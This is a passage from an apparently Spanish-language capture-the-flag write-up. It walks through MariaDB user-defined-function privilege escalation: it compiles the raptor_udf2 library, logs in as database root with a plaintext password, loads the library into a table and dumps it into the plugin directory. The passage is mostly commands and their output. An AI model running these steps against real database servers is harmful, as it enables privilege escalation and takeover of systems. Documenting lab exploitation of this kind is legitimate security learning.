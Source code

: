 ```null
svc@noter:/tmp$ gcc -g -c raptor_udf2.c
svc@noter:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Me conecto a la base de datos

```null
svc@noter:/tmp$ mysql -uroot -p'Nildogg36'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 22028
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Dentro de ```mysql```, creo la tabla ```foo```

```null
MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> create table foo(line blob);
Query OK, 0 rows affected (0.005 sec)
```

Importo la librería

```
MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
Query OK, 1 row affected (0.002 sec)
```

Busco la ruta donde se encuentran los plugins

```null
MariaDB [mysql]> show variables like '%plugin%';
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.001 sec)
```

Inserto el contenido de la librería ahí

```
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.001 sec)
```
